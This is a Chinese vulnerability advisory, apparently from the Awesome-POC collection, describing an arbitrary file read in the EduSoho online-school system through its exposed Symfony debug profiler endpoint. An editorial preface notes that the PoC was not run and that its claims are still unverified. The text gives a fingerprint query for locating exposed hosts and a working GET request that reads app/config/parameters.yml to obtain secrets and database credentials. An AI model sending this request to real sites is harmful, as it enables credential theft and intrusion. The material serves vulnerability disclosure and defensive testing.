


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：app_dev.php及_profiler/open开发调试接口对外可访问；文件可读

- **适用与权限边界（1）**：版本仅产品名，缺debug/profiler暴露前提。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：单个parameters.yml不能单独证明任意文件范围；结果在截图。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：与136正文完全一致，来源/图片目录不同。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。

通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息。

## 漏洞影响

EduSoho 教培系统

## 网络测绘

```
"Powered By EduSoho"
```

## 漏洞复现

登录页面



指纹


poc

```
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```




---

> 来源：Threekiii/Awesome-POC
